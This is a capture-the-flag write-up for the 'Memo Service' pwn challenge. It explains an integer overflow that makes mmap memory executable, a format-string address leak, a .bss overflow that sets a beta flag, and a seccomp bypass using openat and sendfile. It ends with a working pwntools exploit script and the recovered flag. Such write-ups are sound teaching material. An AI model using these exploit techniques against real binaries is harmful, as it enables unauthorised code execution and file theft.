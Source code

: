 # Memo Service writeup

## Description

Our company has just installed a new program that helps employees to remember things rather than use sticky notes.

`$ nc something.challenge.cr3c.tf 1337`

**author**: Lio

## Overflow the proc variable

The program calls `scanf()` with a format `%ld` into a variable `n` with type int.

```c
int n; // [rsp+10h] [rbp-30h] BYREF
int prot; // [rsp+14h] [rbp-2Ch]
/*...*/
__isoc99_scanf("%ld", &n);
```

We can utilize this to make our input number overflow into the variable next to `n`, which is `proc`, thus making `mmap()` return a memory region with the exec permission.

## Leaking mmap address

The 2nd vulnerability is the call to `sprintf()` with the two arguments being a global variable `employee` and our input buffer `s`. The `employee` variable will be printed out later.

```c
char s[24];
/*...*/
sprintf(employee, s);
/*...*/
printf("Thank you %s for using our service!\n", employee);
```

Therefore we can use format strings vulnerability to leak data on the stack, specifically the address returned by `mmap()`, which is the `passcode` variable we need for execution of the beta feature.

## Getting the beta access

Since the `employee` variable is located right above the `is_beta` variable. We can gain this information by inspecting the memory.

```
.bss:0000000000004050         public employee
.bss:0000000000004050 ; char employee[20]
.bss:0000000000004050 employee db 14h dup(?)                  ; DATA XREF: main+12F↑o
.bss:0000000000004050                                         ; main+17E↑o
.bss:0000000000004064         public is_beta
.bss:0000000000004064 is_beta dd ?                            ; DATA XREF: main+202↑r
```

We can make use of the previously mentioned format strings vulnerability to print a lot of characters into the `employee` variable and, as a result, overflow the `is_beta` variable.

## Bypass seccomp with ORW alternative

From the `beta_setup()` function, the program forbids us from using the syscall to `open`, `read`, `write`, `execve`, and `execveat.`

```c
__int64 beta_setup()
{
    __int64 v1; // [rsp+8h] [rbp-8h]

    v1 = seccomp_init(0x7FFF0000LL);
    if ( !v1 )
    {
        puts("Failed to initialize seccomp filter.");
        exit(1);
    }

    seccomp_rule_add(v1, 0LL, 0x3BLL, 0LL);
    seccomp_rule_add(v1, 0LL, 0x142LL, 0LL);
    seccomp_rule_add(v1, 0LL, 2LL, 0LL);
    seccomp_rule_add(v1, 0LL, 0LL, 0LL);
    seccomp_rule_add(v1, 0LL, 1LL, 0LL);
    return seccomp_load(v1);
}
```

There's one way we can get around this: by using two other syscalls, which are `openat` and `sendfile`.

The `openat` syscall can be used to open a file with an absolute path.

```c
openat(int dfd, const char *filename, int flags, int mode)
```

And the `sendfile` is used to send data from one file descriptor to another, which we can use to send data from the flag file we just open using `openat` syscall to the file descriptor 1 (stdout).

```c
sendfile(int out_fd, int in_fd, off_t *offset, size_t count)
```

## PoC

```py
from pwn import *

context.binary = exe = ELF('chal')

io = remote('127.0.0.1', 1337)

io.sendlineafter(b': ', str(0x700000100).encode())
io.sendlineafter(b': ', b'%8$p%10c')

shellcode = shellcraft.openat(0, "/flag", 0, 0)
shellcode += shellcraft.sendfile(1, 'rax', 0, 50)
payload = asm(shellcode)
io.sendlineafter(b': ', payload)

io.recvuntil(b'0x')
passcode = int(io.recvuntil(b' '), 16)
io.sendlineafter(b': ', b'y')
io.sendlineafter(b': ', str(passcode).encode())

print(io.recvuntil(b"}"))

exit(0)

# cr3{b3t4_5t1LL_1n_d3v3l0pm3nt}
```
